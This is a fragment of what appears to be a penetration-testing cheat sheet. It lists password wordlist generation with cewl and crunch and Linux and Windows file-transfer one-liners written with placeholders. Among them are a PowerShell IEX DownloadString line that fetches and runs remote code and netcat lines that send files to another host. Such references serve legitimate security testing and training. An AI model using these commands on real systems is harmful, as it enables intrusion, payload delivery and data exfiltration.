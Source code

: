 ```
gcc -m32 -Wall -Wl,--hash-style=both -o gimme.o gimme.c
```

---

## DICTIONARY GENERATION

```
cewl -m <WORDS_SIZE> --with-numbers -w dictiFromWebsite <URL> -d <DEPTH>
```

```
crunch 5 5 -f /usr/share/crunch/charset.lst mixalpha-numeric-all -t Test@ -o passwords.txt
```

---

## FILE TRANSFER

### Linux

```
# PYTHON
python -m SimpleHTTPServer <PORT>
python2.7 -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"

# FTP
sudo python3 -m pyftpdlib  -p 21 -w

# SMB
sudo smbserver.py -smb2support liodeus .

# WGET
wget <URL> -o <OUT_FILE>

# CURL
curl <URL> -o <OUT_FILE>

# NETCAT
nc -lvp 1234 > <OUT_FILE> 
nc <IP> 1234 < <IN_FILE> 

# SCP
scp <SOURCE_FILE> <USER>@<IP>:<DESTINATION_FILE>
```

### Windows

```
# FTP 
echo open <IP> 21 > ftp.txt echo anonymous>> ftp.txt echo password>> ftp.txt echo binary>> ftp.txt echo GET <FILE> >> ftp.txt echo bye>> ftp.txt
ftp -v -n -s:ftp.txt

# SMB
copy \\<IP>\<PATH>\<FILE> # Linux -> Windows
copy <FILE> \\<IP>\<PATH>\ # Windows -> Linux

# Powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('<URL>', '<DESTINATION_FILE>')
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('<URL>')
powershell "wget <URL>"

# Python
python.exe -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"
```